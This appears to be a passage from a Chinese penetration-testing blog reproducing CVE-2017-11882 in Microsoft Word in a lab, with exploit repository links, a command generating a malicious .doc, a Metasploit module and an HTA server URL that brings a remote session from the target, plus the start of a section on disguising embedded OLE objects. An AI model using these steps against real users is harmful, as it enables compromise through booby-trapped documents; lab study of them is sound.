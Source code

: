 Microsoft Office Word 的一个执行任意代码的方法，可以在不启用宏的情况下执行任意程序。

这个功能的本意是为了更方便地在 word 里同步更新其它应用的内容，比如说在一个 word 文档里引用了另一个 excel  表格里的某项内容，通过连接域 (Field) 的方式可以实现在 excel 里更新内容后 word  中同步更新的效果，问题出在这个域的内容可以是一个公式 (或者说表达式)，这个公式并不限制内容。

GitHub：

```txt
https://github.com/Ridter/CVE-2017-11882
```

使用：

```bash
python Command109b_CVE-2017-11882.py -c "cmd.exe /c calc.exe" -o test.doc
```

生成 test.doc 文档，靶机打开。成功弹出加算器

![image-20210319161346054](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210402173755.png)



 msf 复现。

项目

```txt
https://github.com/0x09AL/CVE-2017-11882-metasploit
```

```bash
exploit/windows/fileformat/office_ms17_11882
```

有点不稳，老是上线不了

![image-20210319161934022](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210402173756.png)

配合 HTA上线

```bash
exploit/windows/misc/hta_server

http://192.168.2.148:8080/IbsbCdtZ.hta


```

![image-20210319163708609](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210402173757.png)

靶机打开 `test2.doc`直接上线

![image-20210319164005168](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210402173758.png)

#### 2.5 word 中插入外部对象(OLE)方式欺骗

![image-20210319204824562](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210402173759.png)

改变题注，更加逼真
